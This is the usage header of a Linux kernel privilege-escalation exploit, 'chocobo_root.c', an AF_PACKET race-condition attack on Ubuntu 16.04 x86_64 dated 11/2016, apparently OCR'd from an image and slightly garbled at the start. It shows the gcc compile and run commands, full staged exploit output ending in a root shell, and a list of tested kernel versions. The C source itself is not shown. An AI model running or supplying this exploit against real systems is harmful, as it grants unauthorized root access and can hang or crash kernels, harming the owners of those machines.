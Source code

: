 ocobo_root.c
linux AF_PACKET race condition exploit
exploit for Ubuntu 16.04 x86_64

user@ubuntu:~$ gcc chocobo_root.c -o chocobo_root -lpthread
user@ubuntu:~$ ./chocobo_root

making vsyscall page writable..

new exploit attempt starting, jumping to 0xffffffff8106f320, arg=0xffffffffff600000
sockets allocated
removing barrier and spraying..
version switcher stopping, x = -1 (y = 174222, last val = 2)
current packet version = 0
pbd->hdr.bh1.offset_to_first_pkt = 48
*=*=*=* TPACKET_V1 && offset_to_first_pkt != 0, race won *=*=*=*
please wait up to a few minutes for timer to be executed. if you ctrl-c now the kernel will hang. so don't do that.
closing socket and verifying.......
vsyscall page altered!


stage 1 completed
registering new sysctl..

new exploit attempt starting, jumping to 0xffffffff812879a0, arg=0xffffffffff600850
sockets allocated
removing barrier and spraying..
version switcher stopping, x = -1 (y = 30773, last val = 0)
current packet version = 2
pbd->hdr.bh1.offset_to_first_pkt = 48
race not won

retrying stage..
new exploit attempt starting, jumping to 0xffffffff812879a0, arg=0xffffffffff600850
sockets allocated
removing barrier and spraying..
version switcher stopping, x = -1 (y = 133577, last val = 2)
current packet version = 0
pbd->hdr.bh1.offset_to_first_pkt = 48
*=*=*=* TPACKET_V1 && offset_to_first_pkt != 0, race won *=*=*=*
please wait up to a few minutes for timer to be executed. if you ctrl-c now the kernel will hang. so don't do that.
closing socket and verifying.......
sysctl added!

stage 2 completed
binary executed by kernel, launching rootshell
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root),1000(user)

*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=

There are offsets included for older kernels, but they're untested
so be aware that this exploit will probably crash kernels older than 4.4.

tested on:
Ubuntu 16.04: 4.4.0-51-generic
Ubuntu 16.04: 4.4.0-47-generic
Ubuntu 16.04: 4.4.0-36-generic
Ubuntu 14.04: 4.4.0-47-generic #68~14.04.1-Ubuntu

Shoutouts to:
jsc for inspiration (https://www.youtube.com/watch?v=x4UDIfcYMKI)
mcdelivery for delivering hotcakes and coffee

11/2016
by rebel

